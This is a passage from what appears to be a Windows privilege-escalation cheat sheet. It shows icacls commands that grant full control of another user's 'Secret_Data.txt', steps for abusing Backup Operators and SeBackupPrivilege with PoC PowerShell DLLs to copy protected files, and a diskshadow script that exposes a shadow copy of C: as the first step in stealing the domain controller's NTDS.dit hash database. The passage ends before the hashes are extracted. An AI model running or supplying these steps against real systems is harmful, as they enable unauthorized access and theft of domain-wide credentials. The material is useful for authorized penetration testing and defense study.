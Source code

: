 ```posh
icacls 'C:\Users\bob\Desktop\Secret_Data.txt' /grant OUR_USER:F
```

This command will grant us full access (```F```) to the file.

---

## Exploit Groups Permissions

Just like the user privileges, groups allow you to do things that a normal user may not be able to do. To see in which group we are in you can use the command ```whoami /groups```.

### Backup Operators

When member of this group, we are granted the ```SeBackup``` and ```SeRestore``` rights. ```SeBackupPrivilege``` allows file content retrieval, even if the security descriptor on the file might not grant such access. A caller with ```SeBackupPrivilege``` enabled obviates the need for any ACL-based security check.

Because we can't use the standard ```copy``` command, we can use a program to copy files or just use the following [PoC](https://github.com/giuliano108/SeBackupPrivilege). As the Github states, we need to import the two ```dll``` in ```Powershell``` :

```posh
PS > Import-Module .\SeBackupPrivilegeUtils.dll
PS > Import-Module .\SeBackupPrivilegeCmdLets.dll
```
To check if the ```SeBackupPrivilege``` is enabled, we can use either the ```whoami /priv``` or the ```PS > Get-SeBackupPrivilege``` command. If the privilege isn't enabled, we can use the following command to enable it :

```posh
PS > Set-SeBackupPrivilege
```

Imagine that we can't read the content of the ```Secret_Data.txt``` on the bob desktop. We can use this command to copy it to a location where we have read rights.

```posh
PS > Copy-FileSeBackupPrivilege 'C:\Users\bob\Desktop\Secret_Data.txt' .\Secret_Data.txt
```

#### Attacking Domain Controler (NTDS.dit)

This group also permits local domain controller logins. Given that it stores the NTLM hashes for all user and computer objects in the domain, the active directory database ```NTDS.dit``` makes for an extremely appealing target. However, unprivileged users cannot access this file since it is locked.

The [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) command allows us to create a shadow copy of the ```C:``` drive.

```posh
PS > diskshadow.exe
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```
